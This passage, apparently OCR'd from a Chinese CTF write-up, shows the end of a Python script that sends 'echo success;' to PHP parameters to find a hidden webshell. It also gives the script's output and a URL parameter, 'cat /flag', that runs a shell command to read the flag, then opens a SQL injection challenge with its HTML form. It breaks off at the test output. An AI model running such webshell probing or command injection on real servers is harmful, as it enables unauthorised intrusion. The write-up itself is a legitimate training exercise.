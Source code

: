 ```python
            if "success" in r.text:
                print('[+]Parameter: ' + param)
                exit()
    # $_POST
    dict = {}
    for param in params_post:
        dict[param] = "echo success;"
    r = requests.post(url, data=dict)
    if "success" in r.text:
        for key in dict.keys():
            r = requests.post(url, {key: dict[key],})
            if "success" in r.text:
                print('[+]Parameter: ' + key)
                exit()
```

执行结果:

```bash
...
[*]Detecting: xk0SzyKwfzw.php
[+]Found: xk0SzyKwfzw.php
[+]Type: $_GET
[*]Detecting the Parameter...
[+]Parameter: Efa5BVG
[Done] exited with code=0 in 872.331 seconds
```

`xk0SzyKwfzw.php?Efa5BVG=cat+/flag;`即可获取flag。

### 随便注



> **取材于某次真实环境渗透，只说一句话：开发和安全缺一不可**

```html
<html>
<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>
<body>
    <h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
    <!-- sqlmap是没有灵魂的 -->
    <form method="get">
        姿势: <input type="text" name="inject" value="1">
        <input type="submit">
    </form>
</body>
</html>
```

测试时回显:
